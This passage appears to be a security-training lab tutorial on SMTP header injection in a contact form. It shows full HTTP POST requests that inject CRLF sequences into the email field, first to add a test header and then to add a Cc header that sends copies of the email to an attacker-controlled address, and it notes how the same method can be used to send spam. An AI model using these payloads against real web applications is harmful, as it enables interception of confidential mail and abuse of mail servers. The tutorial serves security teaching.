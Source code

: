 Let's have a look at an example. The web application in the exercise below implements a simple contact form that sends an email to the admin user:

![](LPuztxZL9ugf.png)

When submitting the data depicted in the screenshot above, the admin receives the following email:

![image](aNx2yMkggORk.png)

We can identify that our supplied email address gets reflected in the `From` header. Furthermore, our message is reflected in the email body. Just like in the previous sections, we can attempt to inject a CRLF sequence in our supplied email address and supply an arbitrary header to confirm that we have an SMTP Header Injection vulnerability. We can do so with the following request:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 105
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aTestheader:%20Testvalue&phone=123456789&message=Hello+Admin%21

```

Looking behind the scenes, we can confirm that our proof of concept header was indeed injected into the email:

![image](98YzC673MOJ5.png)

Now that we know that the web application is vulnerable to SMTP Header Injection, let's discuss a few options for exploiting this vulnerability.

* * *

## Exploitation

In a real-world deployment of a vulnerable web application, we often do not have access to the resulting email, so we cannot confirm whether our header was successfully injected or not. Our first exploitation attempt could be to add ourselves as a recipient of the email. If we receive the email, we know that we successfully injected an SMTP header. We can do this by targeting one of the following SMTP headers: `To`, `Cc`, or `Bcc`. We can inject our own email address into the header to force the SMTP server to send the email to us:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 107
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aCc:%[email protected]&phone=123456789&message=Hello+Admin%21

```

This should forward the email to our email address at `[email protected]`, including any potentially confidential content. We can also utilize the same methodology to force the SMTP server to send spam emails by supplying a huge list of recipients in any of the three SMTP headers mentioned above and sending the request repeatedly. This would make the SMTP server send a lot of emails to the recipients supplied by us.
